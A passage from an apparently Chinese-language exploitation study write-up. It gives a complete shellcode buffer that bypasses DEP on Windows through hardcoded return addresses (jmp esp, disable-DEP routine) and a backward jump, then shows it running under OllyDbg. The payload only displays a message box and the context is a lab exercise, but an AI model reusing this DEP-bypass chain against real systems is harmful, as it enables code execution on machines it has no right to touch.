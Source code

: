 再回跳205 byte(包括跳转指令的5 byte)即可跳到shellcode, 给出完整的shellcode(208 byte)
```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"		# payload 113 byte
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90"			# 67 byte
"\x52\xe2\x92\x7c"		# mov eax,1 retn
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x19\x4a\x97\x7c"		# 增大esp
"\xb4\xc1\xc5\x7d"		# jmp esp
"\x24\xcd\x93\x7c"		# 关闭DEP代码的起始地址
"\xe9\x33\xff\xff\xff\x90\x90\x90";		# 回跳
```

OD附加上去调试, 现在栈区布局如下
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-014.png)

直接F9运行, pwn~
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-015.png)